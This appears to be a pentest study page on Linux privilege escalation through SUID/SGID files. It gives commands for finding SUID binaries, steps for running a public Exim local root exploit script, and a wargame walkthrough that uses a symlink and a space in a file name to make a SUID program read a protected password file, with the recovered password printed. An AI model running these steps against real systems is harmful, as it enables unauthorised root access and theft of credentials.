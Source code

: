 # SUID / SGID abuse

#### SUID files get executed with the privileges of the file owner. 

#### SGID files get executed with the privileges of the file group. 

If the file is owned by root, it gets executed with root privileges, and we may be able to use it to escalate privileges.

## Finding SUID / SGID Files

We can use the following find command to locate files with the SUID or SGID bits set:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

## Shell Escape Sequences

Just as we were able to use shell escape sequences with programs running via sudo, we can do the same with SUID / SGID files. A list of programs with their shell escape sequences can be found here: [https://gtfobins.github.io/](https://gtfobins.github.io/) Refer to the previous section on shell escape sequences for how to use them.

### A Quick Word on LD\_PRELOAD & LD\_LIBRARY\_PATH

why we can’t just use the same LD\_PRELOAD and LD\_LIBRARY\_PATH environment variable tricks we used with sudo privilege escalation?

#### By default, this is disabled in Linux, due to the obvious security risk it presents!

Both these environment variables get ignored when SUID files are executed

Certain programs install SUID files to aid their operation. Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files. Exploits can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.

for example we found an SUID file for exim service:

#### `-rwsr-xr-x 1 root root 963691 May 13 2017 /usr/sbin/exim-4.84-3`

Exim is a popular mail transfer agent that is somewhat notorious for having many security vulnerabilities.

The version of exim is rather obvious from the filename, however we can confirm it:

#### `$ /usr/sbin/exim-4.84-3 --version`

Using searchsploit on our local machine, we find a local privilege escalation for this exact version:

![](../../../.gitbook/assets/suid1.png)

Copy the exploit script across to the target machine. You may need to remove ^M characters from the script:

{% hint style="info" %}
DON NOT COPY PASTE THIS, ENTER ^M WITH THE KEY COMBINATIONS.

Note that to get ^M you have to hold Ctrl and then press V and M in succession.
{% endhint %}

`sed -e "s/^M//" 39535.sh > privesc.sh`

Make sure the script is executable:

`chmod +x privesc.sh`

Execute the script to gain a root shell:

`./privesc.sh`

## Abusing cat to read files with SUID executables

we have a suid program that prints out a given file contents named printfile we have a password file that cant be read by this program which contains root password .it seems the program printfile outputs the text from a file; just like cat. Therefore, we can assume that it’s using cat somewhere in the code.

![](../../../.gitbook/assets/1%20%2814%29.png)

make a temp directory, and a new text file that we can use for testing the program with ltrace.

#### `mkdir /tmp/jhalon && touch /tmp/jhalon/test.txt  cd /tmp/jhalon  ltrace ~/printfile test.txt   __libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600  access("test.txt", 4) = 0  snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17  system("/bin/cat test.txt"  --- SIGCHLD (Child exited) ---  <... system resumed> ) = 0  +++ exited (status 0) +++`

From the output, we can see that there is a small security hole in the way this program functions. If you look closely, you can see that the function access\(\) and /bin/cat are being called on the input file. What access\(\) does is check permissions based on the process’ real user ID rather than the effective user ID

And if we look back into the previous ls -la output, we can see that printfile is owned by leviathan3. So access\(\) will call the process with leviathan3’s privileges

Looking into the code we also see that /bin/cat is being called on the file to output the contents. While access\(\) uses the full path’s filename, /bin/cat uses just the first part of the filename. \(This is due to how the “ “ are set up in the program\) What we can do here is try to add a space to a filename, and if we are correct, /bin/cat will read the file as 2 separate files.

#### `touch pass\ file.txt  ltrace ~/printfile "pass file.txt"   __libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600  access("pass file.txt", 4) = 0  snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22  system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory  /bin/cat: file.txt: No such file or directory   --- SIGCHLD (Child exited) ---  <... system resumed> ) = 256  +++ exited (status 0) +++`

As you can see, /bin/cat calls “pass file.txt” as two separate files, “pass” and “file.txt”. We can actually exploit this! Let’s go ahead and create a symbolic link for the “pass” part in “pass file.txt”, and link it to /etc/leviathan\_pass/leviathan3.

#### `ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass   leviathan2@melinda:/tmp/jhalon$ ls -la   total 7864  drwxrwxr-x 2 leviathan2 leviathan2 4096 Sep 10 04:55 .  drwxrwx-wt 1 root root 8036352 Sep 10 04:55 ..  lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3  -rw-rw-r-- 1 leviathan2 leviathan2 0 Sep 10 04:54 pass file.txt   leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"  Ahdiemoo1j  /bin/cat: file.txt: No such file or directory`

as you can see we where able to read password file.



















